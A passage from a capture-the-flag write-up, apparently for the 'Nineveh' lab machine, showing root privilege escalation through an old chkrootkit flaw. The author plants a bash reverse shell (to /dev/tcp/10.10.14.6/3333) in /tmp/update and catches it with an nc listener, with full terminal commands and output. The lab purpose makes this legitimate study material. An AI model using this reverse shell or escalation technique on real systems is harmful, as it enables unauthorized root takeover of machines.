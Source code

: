 If you don’t have the script, you can download it from the following github repository.

```
https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32
https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

Uploaded the script, gave it execute privileges and ran it in the same way we did for `linpeas`

After a while, I noticed an interesting process that was popping up eveytime in few seconds.

![n-12](https://user-images.githubusercontent.com/87711310/213497257-8e490ffe-57af-470d-ae93-2f5d83c23c99.png)

Every minute or so the `chkrootkit` was being run. I didn't what it was for or what it did, so I googled it and found out that it is a program intended to help system administrators to check their systems for known rootkits.

Next, I googled `chkrootkit privilege escalation` to find any exploits that could help me escalate privilieges on this machine and I found [this exploit](https://www.exploit-db.com/exploits/33899)

There is a __privilege escalation vulnerability__ with old versions of this software that will run any executable file named `/tmp/update` as `root`.

Therefore, all I had to do was to create an `update` file in `/tmp` directory that contains a reverse shell and wait for the scheduled task to give me a shell with root privilieges

To do that, I navigated to the `/tmp` directory and created the file `update` and added the code in the following way.
```
www-data@nineveh:/tmp$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/3333 0>&1'        
< -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/3333 0>&1'               
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/3333 0>&1
www-data@nineveh:/tmp$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/3333 0>&1' > update
< -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/3333 0>&1' > update      
www-data@nineveh:/tmp$ cat update
cat update
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/3333 0>&1
www-data@nineveh:/tmp$ chmod +x update
chmod +x update
```

I started the listener on port `3333` and the next time chkrootkit ran, I got the shell
```
┌──(darshan㉿kali)-[~]
└─$ nc -lvnp 3333
listening on [any] 3333 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.43] 34586
bash: cannot set terminal process group (18756): Inappropriate ioctl for device
bash: no job control in this shell
root@nineveh:~# whoami
whoami
root

```
